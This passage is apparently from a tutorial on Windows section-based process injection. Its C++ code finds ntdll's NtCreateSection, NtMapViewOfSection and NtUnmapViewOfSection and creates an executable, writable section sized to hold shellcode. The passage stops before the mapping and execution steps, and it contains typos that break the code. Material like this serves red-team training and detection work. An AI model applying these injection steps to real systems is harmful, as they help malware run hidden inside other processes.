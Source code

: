 ```
IN HANDLE ProcessHandle,
IN PVOID BaseAddress OPTIONAL);

typedef enum _SECTION_INHERIT : DWORD {
ViewShare = 1,
ViewUnmap = 2
} SECTION_INHERIT, *PSECTION_INHERIT;
```

Then back in the main .cpp file add `#include "Native.h"` Native.h is the name of the header file you create above, change accordingly. 

Before these APIs can be used, we need to get the address of the exported functions in ntdll.dll. Get a handle to ntdll.dll with `GetModuleHandle` and then the address of NtCreateSection with `GetProcAddress`

```
//find NtCreateSection
HMODULE hNtdll = GetModuleHandle(L"ntdll.dll");
FARPROC hNtCreateSection = GetProcAddress(hNtdll, "NtCreateSection");
```

This can be cast to the NtCreateSection definition, which is the variable used to call it like a method. You may also find it more convenient to cast GetProcAddress directly. 

```
//find NtCreateSection
HMODULE = hNtdll = GetModuleHandle(L"ntdll.dll");
NtCreateSection ntCreateSection = (NtCreateSection)GetProcAddress(hNtdll, "NtCreateSection");

ntCreateSection()
```

Do the same for NtMapViewOfSection and NtUnmapViewOfSection. 
```
// find Nt APIs
    HMODULE hNtdll = GetModuleHandle(L"ntdll.dll");
    NtCreateSection ntCreateSection = (NtCreateSection)GetProcAddress(hNtdll, "NtCreateSection");
    NtMapViewOfSection ntMapViewOfSection = (NtMapViewOfSection)GetProcAddress(hNtdll, "NtMapViewOfSection");
    NtUnmapViewOfSection ntUnmapViewOfSection = (NtUnmapViewOfSection)GetProcAddress(hNtdll, "NtUnmapViewOfSection");
```

Next call NtCreateSeciton to create a new section in the current process. A section object is a region of memory that can be shared with other processes. The section needs to be large enough to accommodate the shellcode:

```
//create section in local process
HANDLE hSection;
LARGE_INTEGER szSection = { shellocde.size()};

NTSTATUS status = ntCreateSection(
&hSection,
SECTION_ALL_ACCESS,
NULL,
&szSection,
PAGE_EXECUTE_READWRITE,
SEC_COMMIT,
NULL);
```
